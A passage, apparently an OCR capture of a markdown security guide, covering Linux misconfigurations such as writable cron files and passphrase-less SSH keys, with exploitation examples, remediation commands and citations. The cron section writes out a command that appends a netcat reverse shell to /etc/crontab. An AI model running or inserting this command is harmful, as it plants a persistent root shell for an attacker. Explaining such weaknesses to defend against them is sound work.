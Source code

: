      - **Prompt**: "Accept admin-defined scheduled tasks"                                                                                                                                                                             
      - **Resource**: `/etc/crontab`, `/var/spool/cron/crontabs/[user]`                                                                                                                                                                
                                                                                                                                                                                                                                       
      ### Exploitation Example                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          
      echo "* * * * * nc 10.0.0.1 4444 -e /bin/bash" >> /etc/crontab                                                                                                                                                                   
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Remediation Command                                                                                                                                                                                                          
      ```bash                                                                                                                                                                                                                          
      chmod 600 /etc/crontab && chown root:root /etc/crontab                                                                                                                                                                           
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Source Citations                                                                                                                                                                                                             
      - **Vulnerability**: [Cron Security Vulnerabilities (Arxiv)](https://arxiv.org/abs/2109.09762)                                                                                                                                   
      - **Remediation**: [Red Hat Cron Best Practices](https://www.redhat.com/sysadmin/cron-security-redhat)                                                                                                                           
      - **Exploitation Example**: [Cb3ro’s Cron Hijacking Methodology](https://github.com/cb3ro/CronExploit)                                                                                                                           
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## 5. **Unattended SSH Unencrypted Keys**                                                                                                                                                                                        
      **Exploitation Vector**: Private SSH keys stored without passphrases enable unrestricted access.                                                                                                                                 
      **Tool, Prompt, & Resource**:                                                                                                                                                                                                    
      - **Tool**: `ssh` (to authenticate)                                                                                                                                                                                              
      - **Prompt**: "Allow SSH key-based login"                                                                                                                                                                                        